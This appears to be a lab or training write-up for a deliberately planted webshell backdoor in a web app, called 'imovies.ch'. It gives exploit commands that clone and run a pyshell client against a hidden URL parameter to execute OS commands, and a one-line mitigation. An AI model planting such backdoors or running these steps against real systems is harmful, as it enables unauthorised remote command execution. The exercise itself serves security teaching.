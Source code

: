 # Webshell backdoor

Difficulty: 
  * Blackbox approach: medium
  * Whitbox approach: simple

## Description
A webshell is a method of gaining persistence and easy access to a target system by the attacker.
A call to a specific URL will make the application run commands on the OS and return the result.
Webshells are widely used as of 2022. Ready-made kits are available.

In our case, we use an innocent-looking URL and parameter name. No authentication is performed,
but could easily be added (e.g. by checking for a certain parameter/password or `user-agent` string).

## How to exploit
Run the following commands on the client:
```
git clone https://github.com/ultinate/pyshell.git
python -m venv env
source env/bin/activate
pip install -r requirements.txt
python pyshell.py -p cert_id https://imovies.ch/list_certs GET
```

Replace `https://imovies.ch` by `http://localhost:5000` for local testing.

## How to mitigate
Remove the backdoor from code (`frontend/app/app.py`).

## Credits
https://github.com/JoelGMSec/PyShell


